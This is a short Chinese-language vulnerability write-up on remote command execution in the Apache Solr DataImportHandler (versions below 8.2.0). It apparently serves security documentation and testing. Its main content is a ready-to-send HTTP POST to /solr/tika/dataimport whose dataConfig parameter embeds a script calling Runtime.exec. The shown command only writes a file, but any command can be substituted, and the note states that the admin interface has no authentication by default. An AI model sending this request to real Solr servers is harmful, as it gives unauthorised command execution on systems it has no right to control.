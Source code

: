 ## 漏洞概述

此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。

它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。

由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行

## 影响范围

```http
Solr < 8.2.0
```

## 漏洞利用

1、访问`http://ip:8983/`Apache solr的管理页面，无需登录（默认未开启鉴权认证）

```http
POST /solr/tika/dataimport HTTP/1.1
Host: solr.com:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://solr.com:8983/solr/
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 585
Connection: close

command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("echo '666' > ./666.txt");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

## 漏洞分析

https://xz.aliyun.com/t/5965#toc-6